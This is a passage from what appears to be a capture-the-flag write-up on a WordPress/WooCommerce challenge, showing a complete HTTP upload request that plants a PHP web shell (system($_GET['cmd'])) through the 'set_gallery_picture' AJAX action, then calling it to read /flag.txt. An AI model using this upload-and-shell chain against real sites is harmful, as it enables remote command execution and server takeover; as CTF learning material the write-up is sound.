 Basically this means we can call this action from :

```
http://localhost:8686/wp-admin/admin-ajax.php?action=set_gallery_picture&product_id=0&gallery_picture=
```

![](https://i.imgur.com/zpMwXXi.png)


By calling that url, we could manage to send a POST request with the correct parameters to upload a gallery_picture through Burpsuite. In order for the change body encoding option to work, I had to add `Content-Type: x-www-form-urlencoded`, and a filename for my payload as well:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: challenge.nahamcon.com:port
Cookie: wordpress_b1fc8e0fa54a56c9a22d3b9c2fe67c92=admin-starlord%7C1716846545%7CumCgWrWQc1muc3GhFyIJpzpPbfCUIinVqP6KEeeMKQX%7Cf3f986009f4f4d1185ed6728024ca7ed031c5a2e0d7fa2911ce0352e9f7a943b
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Length: 396

------WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Disposition: form-data; name="action"

set_gallery_picture
------WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Disposition: form-data; name="product_id"

1
------WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Disposition: form-data; name="gallery_picture"; filename="starlord.php"

<?php if (isset($_GET['cmd'])) system($_GET['cmd']); ?>
------WebKitFormBoundaryoUIWKzm0piFTNvbB--
```

If the error message changes it means the code went one level deeper at least, here’s the response:

```
{"success":false,"message":"Error adding attachment to Woocommerce product."}0
```

Regardless of the message, we know the file has already been uploaded, so we can just navigate to starlord.php and add the correct parameter:


![Flag for testing](https://i.imgur.com/ikUhXeF.png)


```
/wp-content/uploads/woo-gallery/starlord.php?cmd=cat /flag.txt
```

